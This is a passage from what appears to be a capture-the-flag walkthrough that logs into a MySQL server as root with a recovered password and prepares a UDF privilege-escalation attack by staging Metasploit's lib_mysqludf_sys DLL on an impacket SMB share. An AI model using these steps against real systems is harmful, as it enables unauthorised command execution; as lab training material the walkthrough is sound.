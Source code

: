 Now if we check the open ports on our attacker machine, we should see the port `3306`.

```bash
$ netstat -peanut 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
...               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1000       526480     - 
...
```

Now let's try accessing the `MySQL` server with the credentials that we found.

```bash
$ mysql -uroot -p -h 127.0.0.1 -pmysql123\!root 
MySQL [(none)]> select @@version;
+-----------+
| @@version |
+-----------+
| 5.5.45    |
+-----------+
```

# Exploitation (2)

As `root`, we can write to files and load arbitrary plugins. We can use this to create a `sys_exec` function that will run any commands as the user that `MySQL` is running as.  But first, we will need to figure out what architecture the OS is in as well as figure out where the plugins are stored.

```bash
MySQL [(none)]> select@@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| Win64                | x86                       |
+----------------------+---------------------------+

MySQL [(none)]> select@@plugin_dir ;
+-----------------------------------------------------+
| @@plugin_dir                                        |
+-----------------------------------------------------+
| C:\Program Files\MySQL\MySQL Server 5.5\lib\plugin\ |
+-----------------------------------------------------+
```

We will need to get a copy of `lib_mysqludf_sys_64.dll` which you can get from `/usr/share/metasploit-framework/data/exploits/mysql/`. We will then share it over `SMB` using `smbserver.py` from `impacket`.

```bash
$ mkdir udf
$ cd udf
$ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll .
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```